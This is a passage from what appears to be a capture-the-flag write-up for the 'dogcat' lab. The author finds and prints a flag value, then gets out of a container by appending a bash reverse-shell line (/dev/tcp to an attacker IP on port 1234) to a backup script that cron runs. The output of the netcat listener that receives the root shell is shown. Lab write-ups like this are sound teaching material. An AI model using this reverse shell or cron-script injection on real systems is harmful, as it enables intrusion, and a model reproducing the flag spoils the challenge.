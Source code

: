 
I also tried this command to find all the flag 

`find / -type f -name flag 2>/dev/null`

but there is nothing to see

Ater searching for a while I found flag2 in this folder `/var/www`

```
root@07a3b42783b3:/var/www# ls
ls
flag2_QMW7JvaY2LvK.txt
html
root@07a3b42783b3:/var/www# cat flag2_QMW7JvaY2LvK.txt
cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
root@07a3b42783b3:/var/www# 

```

And then I found `backup.sh` in /opt/backups folder 

```
root@07a3b42783b3:/# cd /opt/backups
cd /opt/backups
root@07a3b42783b3:/opt/backups# ls
ls
backup.sh
backup.tar
root@07a3b42783b3:/opt/backups# cat backup.sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
root@07a3b42783b3:/opt/backups# 

```
Script name is backup

I think this script may be in cronjob ,you can read about cronjob here [cronjob](https://en.wikipedia.org/wiki/Cron)

So I added this command in this script and listening with port 1234 

`echo 'bash -i >& /dev/tcp/10.8.69.162/1234 0>&1' >> backup.sh`

```
root@07a3b42783b3:/opt/backups# echo 'bash -i >& /dev/tcp/10.8.69.162/1234 0>&1' >> backup.sh
 >> backup.sh >& /dev/tcp/10.8.69.162/1234 0>&1' 
root@07a3b42783b3:/opt/backups# 

```

After about 3 second I got root shell as dogcat 

```
root@cyb3rhoL1c:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.69.162] from (UNKNOWN) [10.10.38.194] 37118
bash: cannot set terminal process group (5618): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# 

```
